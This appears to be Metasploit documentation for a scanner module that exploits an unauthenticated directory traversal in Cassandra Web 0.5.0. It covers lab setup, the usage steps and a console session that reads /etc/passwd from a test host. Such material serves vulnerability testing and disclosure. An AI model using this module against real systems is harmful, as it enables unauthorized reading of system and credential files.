 ## Vulnerable Application
[Cassandra Web](https://rubygems.org/gems/cassandra-web) is an interface for Apache Cassandra using Ruby, Event-machine, AngularJS,
Server-Sent-Events and DataStaxRuby driver for Apache Cassandra.

This module has been tested successfully on Cassandra Web versions:
* cassandra-web-0.5.0 on Debian 10.11 (buster) with ruby 2.5.5p157 and Apache Cassandra 3.11.13

### Description

This module exploits an unauthenticated directory traversal vulnerability in Cassandra Web
'Cassandra Web' version 0.5.0 and earlier, allowing arbitrary file read with the web server privileges.
This vulnerability occurred due to the disabled Rack::Protection module.

This web service listens on TCP port 3000 by default on all network interface.

Source and Installers:
* [Source Code Repository](https://github.com/avalanche123/cassandra-web)
* [Installers](https://rubygems.org/gems/cassandra-web)

Ruby installation:
```
apt install ruby-full -y
```

Gem installation:
```
gem install cassandra-web
```

Apache Cassandra Installation:
```
cat << EOF > /etc/apt/sources.list.d/cassandra.list
deb https://www.apache.org/dist/cassandra/debian 311x main
EOF
cat << EOF > /etc/apt/sources.list.d/adoptopenjdk.list
deb https://adoptopenjdk.jfrog.io/adoptopenjdk/deb/ buster main
EOF
wget -q -O - https://www.apache.org/dist/cassandra/KEYS | apt-key add -
wget -qO - https://adoptopenjdk.jfrog.io/adoptopenjdk/api/gpg/key/public | apt-key add -
apt update && apt install adoptopenjdk-8-hotspot cassandra -y
```

Run Cassandra Web:
```
cassandra-web
```

## Verification Steps
1. Do: `use auxiliary/scanner/http/cassandra_web_file_read.rb`
2. Do: `set RHOSTS [ips]`
3. Do: `run`

## Options

## Scenarios
### Cassandra Web 0.5.0 Linux Debian 10.11 (Ruby 2.5.5p157 and Apache Cassandra 3.11.13)
```
msf > use auxiliary/scanner/http/cassandra_web_file_read
msf auxiliary(scanner/http/cassandra_web_file_read) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf auxiliary(scanner/http/cassandra_web_file_read) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cassandra Web Detected
[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:107:115::/nonexistent:/usr/sbin/nologin
cassandra:x:108:116:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin


[+] File saved in: /home/git/.msf4/loot/20220802185716_default_192.168.56.1_cassandra.web.tr_160962.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
